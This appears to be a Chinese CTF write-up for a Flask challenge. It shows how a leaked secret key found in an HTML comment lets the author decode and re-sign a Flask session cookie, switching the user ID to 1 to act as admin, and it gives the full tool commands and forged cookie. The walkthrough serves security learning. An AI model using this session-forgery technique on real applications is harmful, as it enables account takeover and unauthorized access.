 ## [NSSRound#13 Basic]flask?jwt?

> Flask
>
> 第一次遇到这种题，构造session

1. 进入页面发现需要登录，尝试一下登录不进去，我们就注册一个账号，登录进入另一个界面

   ![image-20240821153816950](https://gitee.com/bx33661/image/raw/master/path/image-20240821153816950.png)

   点击拿flag，得到我不是admin的提示

2. 分析一下cookie内容，结合题目发现是session构造

3. 查了资料，下载脚本：https://github.com/noraj/flask-session-cookie-manager

4. 在忘记密码页面,得到：secretkey

```
<!-- secretkey: th3f1askisfunny -->
```

5. 解码

```
python flask_session_cookie_manager3.py decode -s “th3f1askisfunny” -c “.eJwljjkOwzAMwP6iuYPs6LDzmUCyJbRr0kxF_14DBVcS4AeOPON6wv4-73jA8Zqwg1NULhlNhAubKBtLOCc6U0fCqQONCZe3bVRJk2YzbZUGzRoi5L2kF-IM7Gk0o2uiVhZNaSV0uBfpNGnTYbZ6xtIXiSgT1sh9xfm_qfD9AV9VLiU.ZsWZAw.serOtgnY1BhZSNuOx3aYEYkg34Y”

#结果
{'_fresh': True, '_id': 'b4e251fe866515a675a56eb5f0b549040d7c0a5404e2334247f4d8a7824c4d2e664b91fb145fe09fa4de97f072567f681e7cbb1694d437caa7f45019191f006d', '_user_id': '2'}
```

6. 编码

```
#待编码内容
{'_fresh': True, '_id': 'b4e251fe866515a675a56eb5f0b549040d7c0a5404e2334247f4d8a7824c4d2e664b91fb145fe09fa4de97f072567f681e7cbb1694d437caa7f45019191f006d', '_user_id': '1'}

#编码结果：
.eJwljjkOwzAMwP6iuYPk6LDzmUC2JbRr0kxF_14DBVcS4AeOPON6wv4-73jA8ZqwQ-coQhlVVUhcTVw0uiR24YaM0wa6MC5v27iwJc_qVgsPniVUuTfKTiwZ2NJ5RrNEK6KWWils9E7aePJmw331gtQWiagT1sh9xfm_Ifj-AF9SLiQ.ZsWaSQ.YVMvNUkro2QI49RcVyr_VOoQIdw
```

提交到cookie，点击按钮拿到flag

